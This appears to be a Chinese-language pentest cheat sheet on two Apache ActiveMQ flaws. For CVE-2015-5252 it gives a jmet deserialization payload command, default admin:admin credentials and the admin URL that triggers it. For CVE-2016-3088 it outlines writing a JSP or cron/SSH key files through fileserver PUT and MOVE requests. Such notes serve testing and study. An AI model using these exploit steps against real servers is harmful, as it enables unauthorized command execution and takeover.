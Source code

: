 # activemq

## CVE-2015-5252

ActiveMQ反序列化漏洞

```
Apache ActiveMQ 5.13.0之前5.x版本
```

利用可执行命令的序列化对象作为一个消息，发送给对方的61616端口，然后通过8161的web端管理页面读取消息，从而触发命令

web端后台地址

/admin

默认口令

```
admin:admin
```

需要得到管理员账号密码然后手动触发消息实现命令执行，或是诱导管理员访问链接触发

payload：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.1.15 61616
```

然后访问

```
/admin/browse.jsp?JMSDestination=event
```

手动触发





## CVE-2016-3088

ActiveMQ任意文件写入漏洞

```
Apache ActiveMQ 5.x - 5.14.0
```

8161 web端分为三个应用，admin，api和fileserver，其中admin和api都需要登录，fileserver无需登录，但是fileserver中无法解析jsp，不过其支持MOVE请求，因此我们可以写入jsp文件，然后利用MOVE请求将其移动到任意位置

同时我们也可以尝试写入cron或ssh key等文件

通过访问

```
/admin/test/systemProperties.jsp
```
